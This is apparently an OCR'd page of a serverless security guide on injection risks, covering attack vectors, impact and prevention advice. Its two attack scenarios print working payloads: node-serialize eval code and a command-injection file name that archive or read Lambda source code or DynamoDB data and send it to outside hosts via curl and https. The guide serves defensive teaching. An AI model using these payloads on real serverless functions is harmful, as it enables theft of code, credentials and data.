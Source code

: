 # A1:2017 Injection

## Attack Vectors
Attack vectors for injections in traditional applications are usually referred to any location where the input to
the application can be controlled or manipulated by the attacker. However, in serverless applications the
attack surface increases.

Since serverless functions can also be triggered from different events sources like cloud storage events (S3,
Blob and other cloud storage), Stream data processing (e.g. AWS Kinesis), databases changes (e.g.
DynamoDB, CosmosDB), code modifications (e.g. AWS CodeCommit) notifications (e.g. SMS, Emails, IoT) and
more, we should no longer consider input coming directly from the API calls as the sole attack surface.
Moreover, we no longer have control of the line between the origin to the resource. If a function is triggered
via email or a database, there is nowhere to put a Firewall or any other control that will validate the event.

## Security Weakness
The traditional SQL/NoSQL Injection will be the same. OS Command Injection might not target the files in the
container (e.g. /etc/host), but source code and other secrets could be found in the container. Code injection
will allow an attacker to use the provider’s API to scan and interact with other services in the account.

## Impact
The impact of a successful injection attack will lean on the permission the vulnerable function has. If the
function has been assigned a role that grants it liberal access to a cloud storage, then injected code could
delete data, upload corrupted data, etc. If the function has been granted access to a database table, it could
delete records, insert records, etc. Roles that allow creating users and permissions can eventually lead into a
cloud account takeover.

## How to Prevent

- Never trust, pass or make any assumptions regarding input and its validity from any resource
Use a safe API, which avoids the use of the interpreter entirely or provides a parameterized interface, or
migrate to use Object Relational Mapping Tools (ORMs)
- Use positive or “whitelist” input validation when possible
- Identify trusted sources and resources and whitelist them, if possible
- For any residual dynamic queries, escape special characters using the specific escape syntax for that
interpreter
- Consider all event types and entry points into the system
- Run functions with the least privileges required to perform the task to reduce attack surface
- Use a commercial runtime defense solution to protect functions on execution time

## Example Attack Scenario I
The following function code, repeatedly found in the wild, deserializes data using the eval() function:
<image>

The untrusted input is sent from the trigger’s event to the unserialize function without any validation. By
sending the following payload, attackers can steal the source code of the function, simply by creating a new
child_proccess that will zip the source-code found in the current directory, wrapping it up with base64 and
sending it to any server they have access to:
>
    _$$ND_FUNC$$_function(){require("child_process").exec("tar -pcvzf /tmp/source.tar.gz ./;
    b=`base64 --wrap=0 /tmp/source.tar.gz`; curl -X POST https://serverless.fail/ --data
    $b",function(){});}()

The attacker can now investigate the code and use it to create a more cloud-native attack. For example, using
the provider’s API to read from the database:
>
    _$$ND_FUNC$$_function(){var s=require("aws-sdk");var h=require("https"); var d=new
    s.DynamoDB.DocumentClient;d.scan({TableName:process.env.DYNAMODB_TABLE},function(e,a)
    {if(e);else{var t=Buffer.from(JSON.stringify(a)).toString();;var
    h.get(“https://serverless.fail?encodeURI(t)”),function(e){})}});}()

## Example Attack Scenario II
A function is triggered from a storage file upload. The function then downloads the file and processes it.

<image> 

However, the the function is vulnerable to command injection, in case a downloaded file does not end with
the required file extension (i.e. ​ .jpg ​ ).

To exploit that, an attacker uses the application legitimately, but uploads two files. One of them contains a
command injection syntax in its name:
>
    chip.gif c.jpg;cd ..; cd var;cd task;f=`head -50 lambda_function.py|base64 --wrap=0`;curl
    protego.ngrok.io?l="$f"
<iamge>

To exploit this vulnerability, the attacker needed to:

- Address an existing file (i.e. chip.gif, which he himself uploaded before)
- Exit the /tmp folder
- Enter the /var/task folder (Use of '/' in the object name is not allowed)
- Read the first 50 lines of lambda_function.py and with it the hardcoded keys to the management
AWS account
- Wrap the code in base64
- Send it to a destination held by the attacker
As a result of the Lambda execution, a request is sent to the attacker, containing the function’s code:
<image>
<image>

## Serverless Risk Meter
Injection attacks are always a great risk. One major benefit is that serverless APIs are harder for attackers to
scan than traditional HTTP apps, which raises the bar dramatically for automated attacks.
However, knowing that 99% of possible malicious inputs are coming from API calls in traditional server
applications, allowing us to put all our guard there, makes it at least more predictable.
The increase in attack surface, results in a major security concern in serverless applications.
<image>
